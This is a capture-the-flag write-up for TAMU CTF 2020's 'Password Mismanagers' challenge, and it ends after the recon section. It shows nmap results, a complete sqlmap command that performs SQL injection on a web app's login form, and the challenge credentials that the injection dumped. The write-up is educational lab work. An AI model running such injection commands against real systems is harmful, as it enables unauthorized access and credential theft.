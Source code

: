 Title: MySQL CVE-2016-6663 and CVE-2016-6664 in action
Author: Sander
Date: 2020-03-26 01:29
Slug: tamu-ctf-2020-password-mismanagers
Category: CTF
Tags: exploit
Summary: CTF challenge "Password Mismanagers"

A fun CTF challenge I did for Tamu CTF 2020 that involves a SQL injection, local file inclusion vulnerability, poppin' a shell, and exploiting an old MySQL exploit in order to gain root.

- CTF link: [Tamu CTF 2020](https://ctftime.org/event/1009/)
- CTF date: Fri, 20 March 2020, 00:30 UTC — Mon, 30 March 2020, 00:30 UTC
- CTF type: Jeopardy

Originally posted on [spotless.tech](https://spotless.tech)

## Recon

The challenge description is rather short, we discover a running machine on `172.30.0.2` using [nmap](https://nmap.org/).

```
21/tcp   open  ftp     syn-ack ttl 64 vsftpd 3.0.2
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
3306/tcp open  mysql   syn-ack ttl 64 MySQL (unauthorized)
8000/tcp open  http    syn-ack ttl 64 PHP cli server 5.4
```

### Password manager

Port 8000 exposes a web application called [Password Manager](https://github.com/dumbape/Password-Manager/) on `http://172.30.0.2/login.php` which is vulnerable to SQLi.

We dump credentials from the `passwords` table using [sqlmap](http://sqlmap.org/):

```bash
python sqlmap.py --threads 3 \
                 --dbms mysql \
                 --random-agent \
                 --time-sec 2 \
                 -u "http://172.30.0.2:8000/login.php" \
                 --data "email=admin@akrondin.com*&pass=&submit=login" \
                 -D pmanager -T passwords --dump
```

```
+----+---------+---------+--------------------+----------------+
| ID | loginid | name    | user               | password       |
+----+---------+---------+--------------------+----------------+
| 1  | bigsbee | bigsbee | admin@akrondin.com | F54gB76&KxpF%3 |
| 3  | admin   | admin   | admin@akrondin.com | jF5t^3dW3dxh!  |
+----+---------+---------+--------------------+----------------+
```

### Wordpress
